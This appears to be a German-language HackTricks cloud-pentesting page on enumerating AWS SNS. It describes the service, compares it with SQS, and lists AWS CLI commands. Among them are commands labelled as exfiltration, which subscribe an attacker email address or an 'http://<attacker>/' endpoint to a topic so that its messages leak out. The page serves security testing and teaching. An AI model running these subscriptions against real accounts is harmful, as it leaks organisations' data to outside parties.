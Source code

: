 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) wird als **vollständig verwalteter Messaging-Dienst** beschrieben. Er unterstützt sowohl **Anwendung-zu-Anwendung** (A2A) als auch **Anwendung-zu-Person** (A2P) Kommunikationsarten.

Wichtige Funktionen für A2A-Kommunikation umfassen **Publish/Subscribe (pub/sub) Mechanismen**. Diese Mechanismen führen **Themen** ein, die entscheidend sind, um hochgradige, **push-basierte, viele-zu-viele Messaging** zu ermöglichen. Diese Funktion ist besonders vorteilhaft in Szenarien, die verteilte Systeme, Microservices und ereignisgesteuerte serverlose Architekturen umfassen. Durch die Nutzung dieser Themen können Publizierungssysteme Nachrichten effizient an eine **breite Palette von Abonnentensystemen** verteilen, was ein Fanout-Messaging-Muster erleichtert.

### **Unterschied zu SQS**

**SQS** ist ein **warteschlangenbasierter** Dienst, der Punkt-zu-Punkt-Kommunikation ermöglicht und sicherstellt, dass Nachrichten von einem **einzelnen Verbraucher** verarbeitet werden. Er bietet **mindestens einmalige Zustellung**, unterstützt Standard- und FIFO-Warteschlangen und ermöglicht die Nachrichtenaufbewahrung für Wiederholungen und verzögerte Verarbeitung.\
Im Gegensatz dazu ist **SNS** ein **Publish/Subscribe-basierter Dienst**, der **eins-zu-viele** Kommunikation ermöglicht, indem Nachrichten gleichzeitig an **mehrere Abonnenten** gesendet werden. Er unterstützt **verschiedene Abonnementendpunkte wie E-Mail, SMS, Lambda-Funktionen und HTTP/HTTPS** und bietet Filtermechanismen für gezielte Nachrichtenübermittlung.\
Während beide Dienste die Entkopplung zwischen Komponenten in verteilten Systemen ermöglichen, konzentriert sich SQS auf warteschlangenbasierte Kommunikation, während SNS ereignisgesteuerte, Fan-out-Kommunikationsmuster betont.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Beachten Sie, dass wenn das **Thema vom Typ FIFO** ist, nur Abonnenten, die das Protokoll **SQS** verwenden, genutzt werden können (HTTP oder HTTPS können nicht verwendet werden).
>
> Stellen Sie außerdem sicher, dass Sie die richtige Region in **`--region`** angeben, auch wenn die `--topic-arn` die Region enthält, da Sie sonst einen Fehler erhalten, der darauf hinweist, dass Sie keinen Zugriff haben, aber das Problem die Region ist.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
